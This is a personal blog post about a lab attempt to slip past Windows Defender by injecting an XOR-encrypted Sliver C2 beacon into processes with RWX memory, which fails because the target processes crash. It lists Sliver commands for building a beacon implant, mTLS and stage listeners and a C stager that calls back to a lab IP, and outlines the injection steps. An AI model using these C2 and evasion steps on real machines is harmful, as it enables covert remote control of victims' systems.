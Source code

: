 +++
title = 'Injecting Shellcode Via RWX Protected Memory Regions'
date = 2025-07-10
draft = false
+++

>⚠️ Be ready to be disappointed...

## 1. PREFACE
So I've been doing some couples of malware academy modules and reverse engineering malwares, but i've never tried to officially bypass windows defender and inject a shellcode. So, I’ve been trying a simple defense evasion technique for windows defender by enumerating processes with a RWX Protected memory region to inject my sliver beacon combined with XOR encryption. One point to note is that, even though it bypasses windows defender antivirus, that doesn't mean that it does not leave other IOC's and to apply this in a real world scenario would require additional stealth features. In this blog, I'll talk about my successes and challenges.




---

## 2. SETUP

#### SETTING UP SLIVER C2 ON KALI

1. Generating beacon profile implant : `profiles new beacon --mtls 192.168.38.128 --os windows --arch amd64 --format shellcode --seconds 5 --jitter 3 win_implant`

>⚠️`--skip-symbols` disables obfuscation

2. Starting the mtls listener : `mtls`
3. Starting the stage listener : `stage-listener --url tcp://192.168.38.128:8443 --profile win_implant`
4. See you listener : `jobs`
5. Generate the stager : `generate stager --lhost 192.168.38.128 --lport 8443 --arch amd64 --format c --save /tmp`

>[!warning]
>You might encounter issues while trying to generate your stager, if you've installed sliver with this : `curl https://sliver.sh/install|sudo bash`. You might need to install it from the release binaries

#### SETTING UP TARGET WINDOWS MACHINE

1. Install Windows on a VM
2. Make sure windows defender is up to date and activated

---

## 3. Development

1. Enumerating the processes
2. If we're able to open the process, we'll have query inside it's memory to find a memory section with RWX
3. Once we find it we will decrypt and inject the shellcode inside that memory region and then start a thread starting from that section
4. We should get a reverse shell connection back to our `Slvier C2` if everything went well (sadly we don't😢)

---

## Problems encountered

- My payload kept getting injected into `SearchApp.exe` which is only used when performing searches and by looking at the process inside `System Informer` formerly known as `Process Hacker`, I could see that the process is almost always in a suspended state, unless i perform searches on the host, so i thought that was the problem

{{< image src="/images/Pasted image 20250705004129.png" alt="20250705004129" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So I tried to perform a search, so that the process would resume, but as soon as it resumed it crashed...

- I also could see that even though my shellcode was written inside the memory, it was not fully written, but only portion

{{< image src="/images/Pasted image 20250708172711.png" alt="20250708172711" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So i went in x64dbg, to in x32dbg to inspect it a little bit further (the beauty of learning reverse engineering, I still suck btw)
    1. Set a breakpoint on `WriteProcessMemory`, so the first process that has `RWX` 
    2. Go on the memory section and identify the third argument and follow in dump, execute till return and see a change happening in the dump
    3. Follow the pointer that was written in the next dump tab and you will see the shellcode

{{< image src="/images/Pasted image 20250708211454.png" alt="20250708211454" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211552.png" alt="20250708211552" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211707.png" alt="20250708211707" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- I could clearly see that my shellcode was passed fully to the `WriteProcessMemory`, but anyway by changing my code a little bit and how I was passing my shellcode the function, I was able to fix it


{{< image src="/images/poc8.png" alt="poc8" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- This did not fix the real problem, so I thought maybe I should inject in another process, maybe that would give a different result, so this is what I did, but as soon as the shellcode got injected and I created a thread to start at that newly written memory region, the program crashed...what is going on? this is not good, even though this is a lab, I was thinking in a real world scenario if you see some of your app crash, after running a program, this will immediately trigger a red alert, even though windows defender doesn't detect anything

- Maybe pausing the process, inject the shellcode and then resume, would fix the problem but, no, I got the same result

- So, I tried a bunch of different things, but always ended up at the same result, but, at least the good news is that I was able to bypass windows defender, right? We have to stay positive in this field, count them small wins...

{{< image src="/images/Pasted image 20250624141138.png" alt="20250624141138" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

---

### 3. Conclusion

To conclude, even though this gets undected by the windows defender antivirus, it still would get detected by an EDR and this angle is not stable enough. What i mean by that, is that since we're overwritting a section of memory that has the RWX Protected Memory Region, i can deduce that the app crashes because we might be overwritting a critical section of the process that is needed to make the process run smoothly. Also, if you see an app crash, this could potentially lead your malware to be discovered which is no good. This type of defense evasion is a good learning experience, but to apply this into a real world scenario would require additionnal tweaks or a different approach.